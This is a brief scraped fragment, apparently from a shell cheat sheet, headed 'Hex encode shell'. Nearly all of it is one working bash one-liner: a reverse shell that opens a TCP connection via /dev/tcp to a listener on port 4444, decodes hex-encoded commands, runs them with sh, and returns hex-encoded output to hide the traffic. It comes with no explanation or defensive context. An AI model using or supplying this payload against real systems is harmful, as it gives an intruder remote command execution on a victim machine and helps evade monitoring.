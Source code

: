 Hex encode shell

```
0<&137-;exec 137<>/dev/tcp/127.0.0.1/4444;cat <&137 |while read ff; do echo $ff|xxd -r -p|sh |xxd -p >&137 2>&137;done
```
